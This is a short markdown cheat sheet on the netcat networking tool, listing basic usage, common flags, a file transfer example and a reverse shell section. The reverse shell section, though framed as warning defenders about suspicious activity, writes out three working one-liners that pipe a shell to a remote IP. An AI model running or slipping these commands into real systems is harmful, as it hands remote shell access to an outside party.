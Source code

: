 ```yaml
---
title: 'CheetSheet: netcat'
date: '2022-09-20'
---
```

- # Netcat
	Netcat is a networking tool that can provide simple network connections to read or write data between remote endpoints. This tool is useful for troubleshooting networks, exploring remote resources, and creating ad-hoc communication channels.

	Unexpected use of this utility may be an indicator of malicious activity.

- ## Basic Usage
	```
	// Arbitrary TCP and UDP connections and listens.
	nc [options] <hostname> <dest_port(s)> 
	```

- ## Common Flags
	[-4] Forces nc to use IPv4 addresses.
	
	[-6] Forces nc to use IPv6 addresses.
	
	[-i] Interval, specifies a delay time interval betweens lines of text sent/recieved.
	
	[-k] Forces nc to stay listening for another connection after its current connection is completed.
	
	[-l] Listen for connections.
	
	[-n] Do not make and DNS/service lookups on specified addresses, hostnames, or ports.
	
	[-p] Source Port
	
	[-r] Select source/destination ports randomly instead of sequentially.
	
	[-s] Source IP Address
	
	[-u] Use UDP instead of TCP.
	
	[-w] Timeout, silently close connection if connection/stdin are idle for more than timeout seconds.

- ## File Transfers
	```
	// On the file recipient.
	nc -l -p 40000 > out.file
	
	// On the file sender.
	nc -w 3 10.10.10.10 40000 < in.file
	```

- ## Reverse Shell
	This activity is highly unsual for a network admin to perform. If the following commands are observed, they should be viewed with extreme caution. I recommend establishing connections with more traditional methods for day-to-day admin activity.
	```
	// Standard
	nc -e /bin/sh 10.0.0.1 40001
	
	// -e is not available, OpenBSD
	nc 10.0.0.2 40002 | /bin/bash | nc 10.0.0.2 40002
	
	// -e is not available
	rm /tmp/f; mkfifo /tmp/f; cat tmp/f | /bin/sh -i 2>&1 | nc 10.0.0.3 40003 > /tmp/f
	```
